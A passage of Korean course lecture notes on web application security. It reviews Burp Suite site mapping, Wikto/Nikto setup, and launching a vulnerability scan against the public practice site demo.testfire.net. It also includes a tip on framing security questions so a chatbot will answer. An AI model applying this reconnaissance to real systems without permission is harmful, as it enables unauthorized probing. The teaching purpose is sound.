--- 
title: "WebGoat 실습: SQL Injection과 XPath Injection 심화"
date: 2025-12-19
excerpt: "WebGoat 실습 환경을 통해 SQL Injection과 XPath Injection 취약점을 직접 공격해보고, 방어 코드의 중요성을 체험합니다."
categories:
  - SK_Rookies
  - App-Security
tags:
  - App-Security
  - SK_Rookies
---

# 📝 웹 애플리케이션 보안 강의 노트 (4일차)

> **강의 날짜**: 2025년 12월 19일
> **강의 주제**: 웹 애플리케이션 보안 실습 (WebGoat, SQL Injection, XPath Injection)
> **강의 차수**: 4일차 (이번 주 마지막 시간)

---

## 🎯 학습 목표

이번 강의에서는 다음 내용을 학습합니다:

1. **웹 해킹 도구 복습**: Burp Suite, Wikto/Nikto 스캐닝 도구
2. **WebGoat 설치**: 리눅스 환경에서 Java 기반 보안 학습 플랫폼 구축
3. **Proxy 우회 기법**: Tinyproxy를 활용한 IP 우회 및 로그 분석
4. **SQL Injection 공격**: 로그인 우회, 권한 상승, UNION 공격
5. **XPath Injection**: XML 기반 인젝션 공격 이해

---

## 📢 강의 시작: 교육 과정 안내

### 🗓️ 교육 일정 및 프로젝트 공지

**강사님의 첫 인사:**

안녕하세요 여러분, 오늘 4일째 시간입니다. 이번 주 마지막 시간이죠.

💡 **중요 공지**:
- **미니 프로젝트**: 다다음 주에 진행 예정
- **2차 사업 평가**: 다다음 주 월요일 진행
- **준비 사항**: 자세한 내용은 이미지와 함께 공지 예정

⚠️ **건강 관리 당부**:
강사님께서 특히 겨울철 컨디션 관리를 강조하셨습니다:
- "겨울이잖아요. 건강관리, 컨디션관리 좀 신경 써주는 게 중요합니다."
- "빨리 간다고 다음에 아파 버리면 도로 혼남을 해버리시더라고요."
- "체력관리나 쉬실 때는 확실히 좀 쉬어 주셔서 체력관리 좀 잘해주시면 좋을 것 같고요."

---

### 📚 교육 과정의 큰 그림

#### 6개월 교육 과정의 특징

강사님의 경험담:

> "6개월 교육과정 참 길죠. 근데 제가 단연간 쭉 진행을 해보면 **항상 교육 끝날 때 되면은 다들 시간이 너무 없었다고 그래요**. 정신없이 지나갔다고 그러거든요."

> "근데 막상 지금 지나가고 있을 때는 제가 봤을 때는 항상 다들 되게 좀 여유가 있다고 해야 되나 그래요."

📌 **프로젝트 진행 기간**:
- **전체 프로젝트 기간**: 약 2개월
- **체감 기간**: "진짜 짧거든요. 뭐 해볼만 하면 이제 정리하고 끝내야 되고"

#### 미니 프로젝트의 중요성

💡 **강사님의 조언**:

> "여러분들이 미리 미니 프로젝트나 중간에 모듈 프로젝트나 이런 것들이 껴있잖아요. 그런 프로젝트를 진행할 때 **나중에 여러분들이 실제 실 프로젝트를 하기 위한 어떤 기반 기술이나 미리 필요한 것들을 모듈 단위로 조금씩 조금씩 진행하면서 준비해놓는다** 생각하고 참여를 하셔야 될 거예요."

**26기 수료생들의 공통된 후회**:
- "너무 시간이 없어가지고 조금 더 잘 할 수 있었는데 되게 좀 아쉬워 하거든요."
- "항상 아무리 열심히 해도 아쉬움이 남는 건 있는데..."

📌 **강사님의 당부**:

> "지금 여러분들이 조금만 더 피곤하고 이러더라도 **힘내서 최강을 다하면** 나중에는 그래도 조금 뿌듯하지 않을까, 뿌듯한 시간이 되지 않았을까 이런 생각을 해봐요."

---

### 📖 진도 및 학습 방향

#### 오늘의 학습 계획

**시간 배분**:
- **오전**: 이론 위주 진행
- **오후**: 실습 위주 진행

강사님:
> "오늘 시작할 때 이제 오늘은 되도록이면 오전에 어떤 이론이나 이런 것들을 좀 얘기하고 오후에 실습 위주로 좀 진행을 하고자 이제 저는 그렇게 해요."

#### 진도에 대한 우려 해소

**학생들의 걱정**: "진도가 많이 안 나간다고 걱정하시는 분들이 있는데..."

🔍 **강사님의 설명**:

> "사실은 진도가 이 장이 많이 안 나가더라도 **제가 실제로 이 교재에서 다루지 않는 내용을 확장시켜서 여러분들한테 얘기해주는 게 많거든요**."

**확장 내용의 선정 기준**:

강사님은 대부분의 기수에서 **프로젝트 강사**로 참여하십니다:
- "제가 하는 게 한 **80% 이상은 여러분들하고 만날 때 제가 프로젝트 강사로 만나요**."
- "프로젝트 관리를 할 때 항상 여러분들이 **공통적으로 접근해야 될 정보나 기술들** 이런 거 위주로 좀 얘기를 하는 거거든요."

📌 **현재 진행 중인 내용**:

1. **환경 구축**: 3-tier 아키텍처
   - "3tier 기본적으로 구축할 줄 알아야 되고"
   - "구축해 놓은 상태에서 서비스 개발하고"

2. **보안 적용**:
   - "그 위에서 여러분들이 각자 프로젝트를 수행을 하게 될 텐데"
   - "그런 이런 환경과 환경 위에서 돌아가는 내용 필요한 보안 이런 것들을 제가 다 지금 연계 해서 가르치고 있으니까"

💡 **안심하세요**:
> "너무 그렇게 크게 걱정 안 하셔도 돼요. 그리고 몇 장 진행하면 뒷부분에는 약간 이론적인 얘기가 좀 많아 가지고 실습보다는 이론적인 얘기가 많아서 그런 부분은 좀 빠르게 진행할 수도 있을 거 같고."

---

## 🔙 전날 복습 (3일차 내용)

### 📌 2장: 웹 해킹 기초

#### 웹 해킹 개요

**전날 다룬 주요 내용**:
1. **한국의 웹 해킹 사건들**: 실제 사례를 통한 위험성 인식
2. **해킹 과정의 단계적 이해**: 공격자의 관점에서 침투 과정 분석

#### 해킹 프로세스 (Penetration Testing Methodology)



💡 **중요 강조**:
> "해킹 과정을 잘 알아야 된다. 처음에 공격대상이 선정되서 공격 후에 흔적을 제거하는 과정까지 **침투 과정을 알아야지 우리가 나중에 시나리오를 만들 수 있다**는 얘기를 했었고요."

---

### 🕵️ 정보 수집 (Information Gathering)

#### 정보 수집의 중요성

**공격자의 첫 번째 단계**:
- "공격자는 어떻게 해요? **정보 수집을 해야 되잖아요**."
- "정보 수집을 하는 여러 가지 정보 수집 방식 중에 하나가 **웹 정보 수집 하는 도구**를 사용해 본 거예요."

#### 사용한 도구: Burp Suite

**Burp Suite의 역할**:
- **프록시 기능**: 브라우저와 웹 서버 사이의 트래픽 가로채기
- **사이트 맵핑**: 웹사이트의 디렉토리 구조 파악
- **취약점 분석**: HTTP 요청/응답 분석

**실습 내용 복습**:



**전날 실습 과정**:

1. **프록시 설정**:
   - Burp Suite에서 프록시 활성화
   - 브라우저 프록시 설정 (일반적으로 `127.0.0.1:8080`)

2. **Intercept On/Off**:
   - "프락시를 켜서 데이터가 브라우저를 띄워서 프락시를 거쳐서 목적지까지 잘 가는지"
   - "프락시가 데이터를 잘 잡는지를 확인하기 위해서 한번 껐다 켜놓은 작업을 하죠"

3. **사이트 탐색 및 맵핑**:
   - "내가 탐지하고자 하는 사이트를 돌아다니다 보면 그 사이트의 하위 URL에 이런 식으로 쭉 어떤 디렉토리가 있고"
   - "그 디렉토리 안에 어떤 소스가 있고 이런 식으로..."

**획득 가능한 정보**:

| **정보 유형** | **설명** | **보안 위험** |
|:---:|:---:|:---:|
| 디렉토리 구조 | `/admin`, `/upload`, `/backup` 등 | 숨겨진 관리자 페이지 발견 가능 |
| 프론트엔드 소스 | HTML, CSS, JavaScript 코드 | 클라이언트 로직 분석 가능 |
| API 엔드포인트 | `/api/users`, `/api/login` 등 | 인증 우회 시도 가능 |
| 파라미터 정보 | `?id=123&role=user` | 파라미터 조작 공격 가능 |

💡 **주의사항**:

> "물론 여기서 제공되는 소스는 뭐예요? **프론트엔드**, 내 브라우저에서 받아보는 소스가 제공되는 거죠. **서버에서 돌아가는 소스가 아니고요**."

---

## ✅ 학습 체크리스트

오늘 강의를 시작하기 전, 다음 항목을 확인하세요:

- [ ] 6개월 교육 과정의 큰 그림을 이해했는가?
- [ ] 미니 프로젝트의 중요성을 인식했는가?
- [ ] 해킹 프로세스 7단계를 기억하는가?
- [ ] Burp Suite의 기본 동작 원리를 이해했는가?
- [ ] 정보 수집의 중요성을 인식했는가?

---

## 🎓 강사님의 조언

### 학습 태도에 대한 조언

> "지금 여러분들이 조금만 더 피곤하고 이러더라도 힘내서 최강을 다하면 나중에는 그래도 조금 뿌듯하지 않을까 뿌듯한 시간이 되지 않았을까 이런 생각을 해봐요."

### 프로젝트 준비에 대한 조언

> "프로젝트를 진행할 때 **나중에 여러분들이 실제 실 프로젝트를 하기 위한 어떤 기반 기술이나 미리 필요한 것들을 모듈 단위로 조금씩 조금씩 진행하면서 준비해놓는다** 생각하고 참여를 하셔야 될 거예요."

---

## 📋 다음 섹션 미리보기

다음 섹션에서는 다음 내용을 다룹니다:
- **Burp Suite 심화**: 디렉토리 스캔 및 사이트 매핑 상세
- **Wikto/Nikto**: 취약점 스캐닝 도구 사용법
- **공개 테스트 사이트**: 안전한 실습 환경 활용

---

**작성 완료**: Section 1 - 강의 소개 및 개요 ✅
# ## 🔍 Section 2: Burp Suite & Wikto 복습 및 심화

> 이 섹션에서는 전날 학습한 Burp Suite와 Wikto 스캐닝 도구를 복습하고, 실전 활용법을 심화 학습합니다.

---

## 📌 Burp Suite를 이용한 정보 수집

### 🎯 Burp Suite란?

**Burp Suite**는 웹 애플리케이션 보안 테스팅을 위한 통합 플랫폼입니다.

**주요 기능**:
1. **Proxy**: HTTP/HTTPS 트래픽 가로채기 및 수정
2. **Spider**: 웹사이트 자동 크롤링
3. **Scanner**: 취약점 자동 스캔 (Pro 버전)
4. **Repeater**: 요청 반복 및 수정
5. **Intruder**: 자동화된 공격 수행

### 🔧 Burp Suite 프록시 설정 복습

#### 1단계: Burp Suite 프록시 활성화

**동작 원리**:



강사님 설명:
> "여기에서 Burp Suite에서 그 프락시를 걸고요. 프락시를 걸고 데이터가 브라우저를 띄워서 프락시를 거쳐서 목적지까지 잘 가는지 프락시가 데이터를 잘 잡는지를 확인하기 위해서 한번 껐다 켜놓은 작업을 하죠."

#### 2단계: Intercept 기능 테스트

**Intercept 동작 방식**:

| **상태** | **동작** | **사용 시기** |
|:---:|:---:|:---:|
| Intercept On | 모든 요청을 중단하고 보여줌 | 요청/응답을 수정하고 싶을 때 |
| Intercept Off | 요청을 그대로 통과시킴 | 사이트를 자유롭게 탐색할 때 |

**실습 과정**:

1. **Intercept On 상태**:
   ```
   - 브라우저에서 URL 입력
   - Burp Suite에 요청이 멈춤
   - "Forward" 버튼으로 요청 전달
   ```

2. **Intercept Off 상태**:
   ```
   - 브라우저에서 자유롭게 탐색
   - Burp Suite가 백그라운드에서 기록
   - Site Map에 자동으로 추가됨
   ```

강사님:
> "자 한번 껐다 켜서 데이터가 잘 잡히는 걸 보고 여기저기 이제 내가 탐지하고자 하는 사이트를 돌아다니다 보면 그 사이트의 하위 URL에 이런 식으로 쭉 어떤 디렉토리가 있고 그 디렉토리 안에 어떤 소스가 있고 이런 식으로..."

#### 3단계: Site Map 분석

**Site Map에서 얻을 수 있는 정보**:

```
example.com
├── /admin (관리자 페이지)
│   ├── /admin/users
│   └── /admin/config
├── /api
│   ├── /api/login
│   └── /api/users
├── /upload (파일 업로드 경로)
├── /images
└── /js
```

💡 **보안 관점에서의 중요성**:

> "이런 정보들을 알고 있으면 나중에 해킹할 때 굉장히 도움이 많이 되겠죠. 디렉토리는 어디 있는지, 자료는 어디 업로드 되는지 이런 정보를 알 수 있어요."

**획득 정보의 활용**:

| **정보** | **공격 활용** | **방어 방법** |
|:---:|:---:|:---:|
| `/admin` | 관리자 페이지 직접 접근 시도 | 인증/권한 검증 강화 |
| `/upload` | 악성 파일 업로드 시도 | 파일 타입 검증, 실행 권한 제한 |
| `/backup` | 백업 파일 다운로드 시도 | 디렉토리 인덱싱 비활성화 |
| API 엔드포인트 | 인증 우회, 파라미터 조작 | API 인증, Rate Limiting |

---

### 🚫 Burp Suite의 한계

강사님의 솔직한 평가:
> "근데 버프수트는 사실 저도 이걸로 정보 수집을 한다거나 이런 걸 해본 적이 별로 없어요. 왜냐하면 **버프수트가 기능이 썩 그렇게 좋지가 않아요**. 디렉토리 스캔 기능이나 이런 것들이."

**무료 버전 vs 유료 버전**:

| **기능** | **Community (무료)** | **Pro (유료)** |
|:---:|:---:|:---:|
| Proxy | ✅ 지원 | ✅ 지원 |
| Spider/Crawler | ✅ 지원 | ✅ 지원 (고급 기능) |
| Scanner | ❌ 미지원 | ✅ 자동 스캔 |
| Intruder | ⚠️ 제한적 | ✅ 무제한 |
| 스캔 속도 | 느림 | 빠름 |

강사님:
> "이거는 그러니까 우리가 사용하는 건 **무료 버전**이잖아요. 커뮤니티 에디션을 쓰고 있는데 이게 버프수트 프로 버전을 유료로 구매해서 쓰면은 이런 스캔도 자동 스캔 기능이 있다고 하는데..."

**무료 버전의 제약**:
- "우리는 어제 브라우저를 열고 내가 돌아다니는 데에만 거기에서만 디렉토리가 이렇게 확장돼서 그려졌던 걸 볼 수 있었어요."
- 수동으로 페이지를 방문해야만 Site Map이 생성됨
- 자동 스캔 기능 없음

---

## 🔎 Wikto 스캐닝 도구

### 📦 Wikto 설치 과정

#### .NET Framework 설치의 필요성

**문제 상황**:
강의 중 Wikto 실행 시 .NET Framework 오류가 발생했습니다.

💡 **Windows 버전별 .NET Framework**:
- **Windows 11**: .NET Framework 6.0 또는 7.0 기본 탑재
- **구형 프로그램**: .NET Framework 3.0 이하 필요
- **Wikto**: .NET Framework 3.0 이하 필요 (약 10년 전 프로그램)

#### .NET Framework 3.5 설치 방법

**방법 1: Windows 기능 켜기/끄기**

강사님:
> "윈도우 기능 켜기 끄기 요걸 검색했었죠. 윈도우 기능 켜기 꺼기를 검색하면은 요런 창이 떴고요."

**설치 단계**:

1. **Windows 검색**:
   ```
   검색어: "Windows 기능 켜기/끄기"
   또는: "Turn Windows features on or off"
   ```

2. **기능 선택**:
   ```
   ☑ .NET Framework 3.5
      ├── .NET Framework 3.5 (includes .NET 2.0 and 3.0)
      └── Windows Communication Foundation HTTP Activation
   ```

3. **온라인 다운로드**:
   - 확인 클릭 → 온라인에서 파일 다운로드
   - 설치 시간: 약 5~10분 소요

⚠️ **주의사항**:
> "요거 키면은 재류에 단넷 프레임웍 3.5 요게 체크가 안 돼 있었을 거예요. 안 되시는 분들은 그래서 요걸 체크를 하고 확인을 누르면 자기가 온라인에서 검색해서 쭉 설치하는 과정이 있었죠. 그게 조금 오래 걸렸어요."

**방법 2: Microsoft 공식 사이트에서 다운로드**

강사님:
> "저는 어제 처음에 인터넷에서 MS에서 MS에서 배포하고 있죠. 윈도우 안에 들어가는 이제 실행 프로그램들을 돌려줄 때 원활하게 돌려주기 위한 중간 프레임웍인데 그 프레임웍을 다운받기 위해서 구글에서 검색해서 다운받았는데..."

---

### 🖥️ Windows Hyper-V와 VM웨어 충돌

#### WSL (Windows Subsystem for Linux) 소개

강사님의 설명 중 중요한 내용:

**Windows 내장 하이퍼바이저**:
> "여기 윈도우 하이퍼바이셔 플랫폼이라는 게 있어요. 여러분들은 지금 VM웨어를 설치해서 VM웨어를 쓰고 있잖아요. VM웨어 워크스테이션으로 우리가 VM 가상 환경을 꾸려 가지고 이제 이런저런 테스트를 하고 3티어도 구성하고 뭐 이제 요런 걸 사용을 하고 있는데..."

**WSL의 장점**:
- Windows와 Linux를 동시에 사용 가능
- 가상머신보다 가볍고 빠름
- 개발 환경 구축에 유용

**WSL의 제약**:
- "하나만 사용할 수 있어요. 하나만 사용할 수 있는 WSL이라는 기능을 제공하고 있어요."
- 여러 대의 가상머신이 필요한 경우에는 부적합

#### 하이퍼바이저 충돌 문제

⚠️ **심각한 문제**:

강사님:
> "이거 켜놓고 되면은 **하이퍼바이저들끼리 충돌이 나더라고요**. 그래서 이거 켜고 있으면 뭐 VM웨어 워크스테이션이 실행이 안 된다든가, VM웨어 워크스테이션이 실행되면 WSL이 실행이 안 된다든가 뭐 이런 식으로 둘 다 동시에 동작을 하는데 문제가 생겨요."

**충돌 원리**:



💡 **해결 방법**:
- 교육 중에는 VM웨어 사용 → Hyper-V 비활성화
- 개인 실무용으로는 WSL + Docker 조합 추천

---

### 🚀 Docker 컨테이너 기술 소개

강사님의 추가 설명:

#### Docker란?

> "도커라는 컨테이너 기술이 있어요. 여러분들도 아마 도커에 대해서 개념적으로는 아마 배우지 않았을까 생각을 하는데..."

**클라우드 서비스와의 연관성**:

강사님:
> "클라우드에서 여러분들이 **RDS** 같은 거 사용 해보셨죠? 데이터베이스 그쪽에서 제공하고 있는 엔드포인트 받아 가지고 쿼리 넘기고 데이터베이스 이런 거 사용해보셨죠? RDS 써보셨죠? 기본이니까 AWS 배울 때 데이터베이스 아마존에서 제공하는 거 RDS라는 게 있습니다 라고 해서 써보셨을 거예요. 그렇죠?"

**RDS의 동작 원리**:



> "그런 것들이 다 그 서비스를 이용하게 되면 어떻게 해요? 나를 위한 VM이 하나가 뚝 떨어져서 생성이 되는 게 아니고 그쪽 걔네들 나는 그냥 서비스 신청만 클릭을 하면 내가 접속해서 MySQL 같은 클라이언트로 접속해서 쓸 수 있는 서버가 그쪽에서 딱 준비가 되죠. 그런 서비스를 제공해주는 게 **그게 다 컨테이너 기반에서 서비스를 만들어주는 거**거든요."

#### Docker의 장점

💡 **경량화된 서비스**:
- VM처럼 무겁지 않음
- 빠른 시작 시간
- 리소스 효율적

강사님의 조언:
> "나중에 여러분들이 지금 제 수업 범위를 벗어나서 제가 좀 길게 얘기하기는 힘든데 나중에 조금만 관심 가지고 **도커라는 거를** 도커는 프로그램 이름이에요. **컨테이너를 구현하는 프로그램 이름**인데 도커를 조금 써보면 **굉장히 편리하게 한 대 리눅스 안에서 여러 대의 서비스를 구성해서 동시에 서비스를 한다거나 제공하고 있는 그런 것들을 할 수 있어요**."

**실무 활용 가능성**:
> "나중에 제가 여러분들하고 또 모듈 프로젝트도 같이 하게 되고 할 텐데 시간이 되면 지금은 이 웹 어플리케이션이라는 웹 어플리케이션 보안에 진도를 나가야 되는데 나중에 시간이 된다면 **도커를 가지고 좀 편리하게 쓸 수 있는 방법이나 이런 것들도 여러분들한테 좀 알려 주면 되게 좋을 것 같아요**."

---

## 🔧 Wikto 실행 및 사용법

### 📟 Wikto 프로그램 개요

**.NET Framework 설치 후**:

강사님:
> "단넷 프레임웍을 설치를 했고 단넷 프레임웍 설치한 다음에 스캐너를 실행을 했더니 저는 어제 이게 이제 실행이 너무 버벅거려서 **컴퓨터를 재부팅 했어야 돼요**. 재부팅 하고 나니까 빠르게 잘 돌아가더라구요."

### 🎨 Wikto UI 구성

**인터페이스 특징**:
> "어제 제가 실행을 못 해봤죠. 인터페이스가 굉장히 조금 구리죠. 이런 식으로 뜨는데..."

**주요 탭 구성**:

| **탭 이름** | **기능** | **설명** |
|:---:|:---:|:---:|
| Wikto | 메인 스캔 | Nikto 기반 취약점 스캔 |
| Spider | 크롤링 | 사이트 맵 생성 |
| CGI Directory | 디렉토리 스캔 | 서버 사이드 디렉토리 탐색 |
| Results | 결과 | 스캔 결과 표시 |

### 🔍 Nikto vs Wikto

강사님의 설명:

> "윅토라고 하고 사실은 윅토라고 이렇게 배포된 이 프로그램이 얘를 수행하면 내부적으로 여기 써있죠. **닉토**라고. 여기 스캔하는 프로그램이 있어요. **CLI 명령어로 스캔하는 프로그램**이 있는데 옵션이나 이런 것들이 복잡하기 때문에 얘가 굉장히 간단하게 스캔할 수 있게 **UI GUI를 만드는 거예요**."

**관계 구조**:



💡 **핵심**:
> "GUI를 만들어서 윅토를 호출해서 내부적으로 호출해서 걔를 수행하게 하는 이런 프로그램을 만든 거예요."

---

### 🎯 Wikto 실습: 웹 스캐닝

#### 1단계: 타겟 설정

**공개 테스트 사이트 활용**:

⚠️ **중요한 법적 고지**:

강사님:
> "CPT가 보안에는 좀 민감해 가지고 잘 물어봐야지 잘못 물어보면 또 대답도 안 해주고 이러잖아요. '스캔을 공부하려고 한다' '스캔을 테스트해 보고 싶다' '사이트를 알려달라' 이런 식으로 물어보면 얘가 몇 군데 추천해 주는 게 있을 거예요."

**공개 테스트 사이트 목록**:

| **사이트** | **URL** | **용도** |
|:---:|:---:|:---:|
| AltoroMutual | `http://demo.testfire.net` | 취약한 온라인 뱅킹 사이트 |
| Acuart | `http://testphp.vulnweb.com` | PHP 취약점 테스트 |
| WebGoat | 로컬 설치 | OWASP 공식 학습 플랫폼 |
| DVWA | 로컬 설치 | Damn Vulnerable Web App |
| Juice Shop | 로컬 설치 | OWASP 최신 플랫폼 |

강사님이 선택한 사이트:
> "저는 제가 어제 갑자기 생각나서 검색을 해 봤는데 검색을 해 보니까 예전에 저도 학생 때 공부할 때 이제 오래 됐어서 까먹고 있었는데 테스트해 보는 사이트가 많이 나와요."

💡 **demo.testfire.net 선택 이유**:
> "이 사이트가 굉장히 유명했던 것 같아요. 제가 옛날에 이 사이트에서 저도 여러번 학생 때 이 사이트에서 여러 가지 테스트를 하고 공부를 하고 했었던 기억이 있어요. 테스트파이어라고 하니까 생각이 났어요."

#### 2단계: 취약점 데이터베이스 로드

**Database 로드**:

강사님:
> "자 여기서 스캔하기 전에 이 제일 아래 버튼 보면 '**load dict to database**'라고 있어요. 이걸 클릭하면은 데이터베이스를 가지고 오겠습니까 라고 하면 예를 들면 **검사하기 위한 취약성 데이터베이스**를 이렇게 갖고 와요."

**로드 결과**:
> "로드됐대요. **2963개의 테스트**가 지금 로드가 됐대요. 저쪽 데이터베이스에서 지금 내가 테스트 해보기 위한 이 데이터베이스를 지금 가지고 온 거예요."

**데이터베이스의 역할**:
- 알려진 취약점 패턴 저장
- 공격 쿼리 템플릿 포함
- 지속적으로 업데이트됨

#### 3단계: 스캔 실행

**스캔 설정**:

```
Target: demo.testfire.net
Port: 80 (HTTP)
Protocol: HTTP
```

**스캔 시작**:

강사님:
> "이렇게 가지고 온 다음에 'start'하면은 테스트를 하기 시작하죠. **3,000개니까 아마 굉장히 오래 걸릴 거예요**. 지금 이렇게 하나씩 하나씩 쿼리를 넘겨보는 거거든요."

**스캔 과정**:

